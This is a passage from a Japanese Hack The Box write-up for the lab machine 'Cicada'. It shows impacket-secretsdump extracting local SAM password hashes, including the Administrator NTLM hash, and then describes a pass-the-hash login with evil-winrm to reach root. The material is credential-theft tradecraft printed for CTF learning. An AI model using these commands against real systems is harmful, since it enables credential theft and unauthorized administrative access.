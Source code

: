 データをダウンロードします。

![image-20250207141358009](screenshot/image-20250207141358009.png)

`impacket-secretsdump` でオフラインで解析します。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 
```

AdministratorのNTLMハッシュを取得しました。

## Root.txt

evil-winrmで取得したNTLMハッシュを使ってAdministratorとしてログインできました。

![image-20250207141747998](screenshot/image-20250207141747998.png)

root.txtを取得しました

![image-20250207141854501](screenshot/image-20250207141854501.png)